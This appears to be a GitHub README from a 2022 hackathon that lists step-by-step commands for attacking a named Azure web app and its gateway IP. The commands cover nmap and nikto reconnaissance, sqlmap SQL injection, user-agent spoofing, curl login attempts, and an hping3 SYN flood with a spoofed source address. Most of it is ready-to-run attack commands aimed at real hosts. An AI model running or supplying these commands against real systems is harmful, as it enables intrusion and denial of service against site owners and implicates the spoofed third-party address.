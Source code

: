 # WebSite Attack by AndreMurrel
Web site attack created by Andre Murrel for FTA hackaton Februare 2022

This is instructions on how to execute a website attack. It was created by Andre Murrel for a hackaton played by Rudnei, Andre, Simona, Ricardo, Andrej and Andrew.

### Information utilized

- Web app: https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
- App GW: 52.249.241.69

## Enumeration and Discovery
```
    Nmap -v -O -Pn 52.249.241.69 --traceroute 
    #silent scan of IP and 1000 ports if ICMP is blocked 
```
```
    nikto -h 52.249.241.69 
    //nikto -h https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
    //nikto -h https://owaspdirecprunoavl6xr2y.azurewebsites.net –ssl
```
## ATTACK Attempt at SQL Injection (this throws the kitchen sink at the Website) 
```
    sqlmap -u "https://owaspdirect-prunoavl6xr2y.azurewebsites.net" --data="id=1&str=val" -b 
```
![image](https://user-images.githubusercontent.com/97529152/161347761-6c4a72d3-8c94-4d97-8c78-761c182a9f74.png)

**NOTE:**  
This will NOT be successful but will send a lot of SQL injection and XSS traffic to the WebApp. This will identity that there are NO DBs behind the WebApp.

- Grab header and spoof useragent 
```
curl -I -X HEAD -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" http://52.249.241.69
```
![image](https://user-images.githubusercontent.com/97529152/161603891-81c59240-c355-4629-8799-1c42c6a3eb7d.png)

### Login Admin of app 
```
curl -u user:pass -o outfile https://owaspdirect-prunoavl6xr2y.azurewebsites.net/ 
curl -u user:pass -o outfile https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
```
 
### DoS attack 
```
hping3 52.249.241.69  --flood --frag --spoof 20.185.179.183 --destport 443 –syn 
```


